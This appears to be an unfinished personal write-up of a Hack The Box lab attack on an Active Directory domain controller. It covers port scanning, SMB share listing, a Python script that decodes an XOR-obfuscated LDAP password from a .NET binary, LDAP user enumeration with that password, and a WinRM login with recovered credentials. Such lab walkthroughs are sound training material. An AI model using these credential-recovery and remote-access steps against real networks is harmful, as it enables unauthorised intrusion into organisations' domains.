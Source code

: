 # Enumeration

Look what ports are opens
```bash
nmap -p- --min-rate 10000 -oA nmap/massive_scan 10.129.224.189
Nmap scan report for 10.129.224.189 (10.129.224.189)
Host is up (0.026s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49690/tcp open  unknown
49695/tcp open  unknown
49711/tcp open  unknown

```

take the ports open and run the nmap with `-sVC` flag
```bash
sudo nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49678,49690,49695,49711 10.129.224.189 -oA complete_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-22 02:24 EDT
Nmap scan report for DC.support.htb0 (10.129.224.189)
Host is up (0.061s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-22 06:24:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-22T06:25:42
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.80 seconds

```

the hostname `DC` and `support.htb0` are both leaked. I'll update my `hosts` file with `10.129.224.189 DC.support.htb support.htb`

## Shares Enumeration

```bash
smbclient -N -L //support.htb            

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to support.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

TODO: Aggiungere come scaricare `iLSpy`

![[Pasted image 20250622103330.png]]

to decrypt the base64 string using XOR algorithm we need the value of **key** variable.
`armando` is the **key** value

![[Pasted image 20250622103439.png]]

XOR have is bidirectional means the same method to chiper the string will be use to decrypt. We can use the same c# fuctions founded in PE file but on my kali machine i prefer to use python. This is my python script to decrypt the pasdword

```python

import base64


base64_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = list("armando".encode())

print(base64_password, '\n')
print(key,'\n') 

print("****************** XOR DECRYPT *************************")

array = base64.b64decode(base64_password)
decrypted = bytearray()

for i in range(len(array)):
	byte = (array[i]^key[i % len(key)]) ^ 0xDF
	decrypted.append(byte)

d = decrypted.decode("utf-8")

print(d)


'''
public static string getPassword()
{
	byte[] array = Convert.FromBase64String(enc_password);
	byte[] array2 = array;
	for (int i = 0; i < array.Length; i++)
	{
		array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
	}
	return Encoding.Default.GetString(array2);
}
'''
```



TODO:
spigare che ho dovuto usare '' perche' altrimenti il dollaro viene preso come variabile

```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(ObjectClass=Users)"

```



get all'users with ldap query

```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" '(objectClass=User)' sAMAccountName | grep sAMAccountName
# requesting: sAMAccountName 
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: DC$
sAMAccountName: krbtgt
sAMAccountName: ldap
sAMAccountName: support
sAMAccountName: smith.rosario
sAMAccountName: hernandez.stanley
sAMAccountName: wilson.shelby
sAMAccountName: anderson.damian
sAMAccountName: thomas.raphael
sAMAccountName: levine.leopoldo
sAMAccountName: raven.clifton
sAMAccountName: bardot.mary
sAMAccountName: cromwell.gerard
sAMAccountName: monroe.david
sAMAccountName: west.laura
sAMAccountName: langley.lucy
sAMAccountName: daughtler.mabel
sAMAccountName: stoll.rachelle
sAMAccountName: ford.victoria

```


```bash
evil-winrm -u "support" -p "Ironside47pleasure40Watchful" --ip support.htb
```
![[Pasted image 20250622105158.png]]

## Setup bloodhound env

```bash
curl -L https://ghst.ly/getbhce > docker-compose.yml
sudo docker-compose pull && sudo docker-compose up
```

![[Pasted image 20250624000703.png]]


LDAP query to extract the `ms-DS-MachineAccountQuota` from the domain class.
```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(ObjectClass=domainDNS)" ms-DS-MachineAccountQuota
```



https://breachar.medium.com/install-bloodhound-ce-under-kali-linux-2024-4-2a68feebdb62